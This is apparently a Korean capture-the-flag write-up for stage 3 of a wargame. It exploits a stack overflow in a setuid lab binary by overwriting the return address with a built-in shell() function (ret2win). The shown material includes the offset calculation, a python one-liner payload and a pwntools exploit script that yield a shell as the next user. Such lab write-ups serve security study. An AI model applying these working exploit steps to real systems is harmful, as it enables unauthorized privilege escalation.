






> 오버플로우로 리턴 주소를 win함수로 덮어 → `system("/bin/sh")` 실행 → **다음 유저(Scavening) 셸** 획득 → 클리어.
(Ch.2와 유사한데 좀 더 쉽다.)
> 

---

## 1. 문제 분석

### 1-1. 코드 확인

**Ch3은 setuid(Scavening) 바이너리이다**. 코드에서 , 중요한 건 아래 두 곳이다.

```c
void shell(){
    check_value = 1;
    system("/bin/sh");          // 여기로 점프시키면 셸 얻고 끝
}

void Open_Door(){
    char password[20];
    printf("Enter Password : ");
    scanf("%s", password);      // <- %s에서 길이 검사 안한다. 즉 취약점.
}
```

- `scanf("%s", password)`는 길이 제한이 없다 → `password[20]`보다 길게 넣으면 바로 **SBO**.
- 바이너리 안에 `shell()`이 **이미 있다** → Ch2 처럼 셸코드를 만들 필요 없이 **리턴 주소를 `shell()` 주소로** 덮기만 하면 된다(**ret2win)**
- 타겟: 메뉴 `[5] Open Door` → `Open_Door()`의 scanf.

### 1-2. 보호기법 확인

```
TERM=xterm checksec --file=./stage3 
//그냥 하던데로 checksec 해버리면 에러가 뜬다.
checksec이 터미널 기능을 사용하기 위해 terminfo DB를 찾는데, 지금 셸의(ch2에서 직접 주입한 셸) TERM이 비어있거나 이상해서 이렇게 된다. TERM=xterm으로 TERM에 xterm 넣어주고 checksec을 사용하면 일시적으로나마 정상사용 가능하다.
```



```python
cat /proc/sys/kernel/randomize_va_space
/* 0=OFF, 1=부분ON, 2=완전ON. 
바이너리 자체 코드 주소는 ASLR이 아니라 PIE 여부가 좌우한다. ASLR은 스택,libc 주소를
랜덤화 한다. */
```

| 값 | 의미 |
| --- | --- |
| **0** | ASLR **꺼짐** — 스택/라이브러리/힙 주소 전부 고정  |
| **1** | **부분** ON — 스택, mmap 영역(공유 라이브러리/libc), VDSO 랜덤화. **힙(brk)은 고정** |
| **2** | **완전** ON — 1에 더해 **힙(brk)까지** 랜덤화 (리눅스 기본값) |



**No canary + No PIE** → 오프셋만 맞춰 win함수 고정 주소로 덮으면된다. ASLR도 꺼져있다.

---

## 2. Exploit 아이디어

1. 메뉴에서 `5` → `Open_Door` 진입.
2. `password`를 오버플로우 → **리턴 주소를 `shell()` 주소로 덮어쓰기**.
3. `Open_Door`가 `ret`하는 순간 → `shell()` → `system("/bin/sh")` → 셸 획득

### 2-1. Offset 계산

`Open_Door` 디스어셈블을 보면:

```nasm
push ebp
mov  ebp, esp
push ebx
sub  esp, 0x14
...
lea  -0x18(%ebp), %eax      ; <- scanf에 넘길 버퍼 = password = ebp-0x18
...
call scanf
```

- `password` 버퍼 = **`ebp-0x18`**
- 리턴 주소 = **`ebp+4`** (32비트 환경)

```
ebp+4   →  리턴 주소        <- 여기를 shell()로 덮을 예정
ebp+0   →  저장된 ebp (4B)
ebp-4   →  저장된 ebx (4B)   ┐
...                          │ 이 24바이트(0x18) 안을 password로 채움
ebp-0x18 → password[0]       ┘
```

`password[24] + ebp[4] → 28` 즉, RET까지의 거리는 28.

### (2-1) 주소를 거꾸로(리틀 엔디안)

x86은 **리틀엔디안**: 여러 바이트 값을 **낮은 바이트부터** 메모리에 저장한다.
`shell()` 주소 `0x080491a6`를 메모리에 올리면 바이트 순서가:

```
낮은 주소 → 높은 주소
a6  91  04  08
```

CPU가 리턴 주소 4바이트를 읽을 때 이 순서를 다시 `0x080491a6`으로 만든다. 그래서 **입력에 쓸 때도 `\xa6\x91\x04\x08` 순서**로 넣어야 CPU가 올바른 주소로 복원한다.
→ pwntools `p32(0x080491a6)`가 이 변환을 자동으로 해준다. (난 그냥 sys 불러와서 거꾸로 기입했다. 굳이 pwntools 안써도 되는 문제이기 때문이다.)

### (C) Vi 편집기 사용 불가



ch2에서 주입한 셸로는 vi같은 편집기를 열 수 없다. 그러므로, 공격을 파이프로 넣을 거다. 이 때, cat을 붙여줌으로써, stage3 셸의 stdin으로 자연스럽게 들어가게끔 만들어주는 것이다. (그래야 셸을 얻고 명령어를 입력할 수 있다.)

```python
현재 셸 상황
[ Ch2. 익스 셸 ] ──파이프──> [ pwntools ] ──> 지금 화면
            (TTY 아님)
```

```bash
(python3 -c '...페이로드...'; cat) | ./stage3
```

- `python3 -c`가 페이로드를 뱉고 끝나면, 그 파이프는 **EOF(입력 끝)**가 된다.
- 그런데 `shell()`이 띄운 `/bin/sh`는 **stdin에서 명령을 읽으려 한다.** stdin이 이미 EOF면 셸은 읽을 게 없어으므로 **즉시 종료된다.** → 명령어 입력 못함.
- `; cat`을 붙이면: python이 페이로드를 보낸 뒤 **`cat`이 내 키보드(터미널)를 읽어 파이프로 계속 흘려보낸다** → 띄워진 셸이 내 입력을 받는다 → 명령어(id, ls) 입력 가능.

---

## 3. 주소 확인

`objdump`로 `shell()` 주소를 그냥 읽는다 (No PIE라 주소 고정되어있어서 하드코딩이 가능하다.)

```bash
objdump -d stage3 | grep '<shell>:'
```



→ **shell() = 0x080491a6**. 리틀엔디안으로 `\xa6\x91\x04\x08`.

> stage3는 setuid라 gdb로 동적분석이 불가능하지만, objdump은 가능하다 — 실행이 아니라 파일을 읽는 거라 권한이 무관하다
> 

---

## 4. 최종 Exploit 코드

stage3가 Breaking 홈에 있으니 Breaking 셸에서 파이프로 실행

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"5\n" + b"A"*28 + b"\xa6\x91\x04\x08" + b"\n")'; cat) | /home/Breaking_Through_for_Survival/stage3
```

| 부분 | 의미 |
| --- | --- |
| `b"5\n"` | 메뉴 [5] Open Door 선택 (`scanf("%d")`에 5) |
| `b"A"*28` | 패딩 (오프셋 28, 리턴 주소 직전까지) |
| `b"\xa6\x91\x04\x08"` | `shell()` 주소 0x080491a6 (리틀엔디안) → 리턴 주소 덮기 |
| `; cat` | 띄워진 `/bin/sh`에 stdin 계속 연결 |



`5번 입력 후 Open_Door` → password에 `A*28 + shell주소` → `Open_Door`가 `ret` → `shell()` → `system("/bin/sh")` → 셸 획득 

(셸이 불안정해서 줄 편집기가 제대로 작동 안한다…)

---

## 5. Ch.3 Clear

#### id 확인

```
$ id
uid=504(Scavening_for_Survival) gid=502(Decoding_for_Escape)
```

`uid=504(Scavening_for_Survival)` **다음 유저(Scavening)로 권한 상승 성공 → Ch.3 클리어**.

이번엔 권한 드랍이 안 일어났다**.** Ch.2에선 `/bin/sh`가 euid를 떨궈서 `setreuid`로 막았는데, Ch.3의 `shell()`은 `system("/bin/sh")`를 쓰는데도 `id`가 그대로 Scavening(504)으로 나왔다. (드랍 여부는 환경/셸 설정에 따라 다르다 **ret2win 후엔 항상 `id`로 확인**하자)

---

### 6. 부록

이중셸로 인한 불편함?을 나중에 해결하게 됐는데, 덕분에 pwntools로 아래와 같은 explolit 코드를 만들 수 있었다. 로직은 위와 동일하다.

```python
from pwn import *
context.arch = 'i386'
context.log_level = 'debug'       # 혹시 막히면 디버깅 하기 위한 목적으로 넣어둠
exe = '/home/Breaking_Through_for_Survival/stage3'
e = ELF(exe)
p = process(exe)
shell = e.sym['shell']

p.sendlineafter(b'Close Door', b'5')      # 메뉴 다 뜬 뒤 5 선택
payload = b'A'*28 + p32(shell)
p.sendline(payload)                        # Open Door 입력칸에 payload
p.interactive()
```



status 명령어 사용하면 그냥 pw가 쉽게 나온다. (ch2 부록 참고)
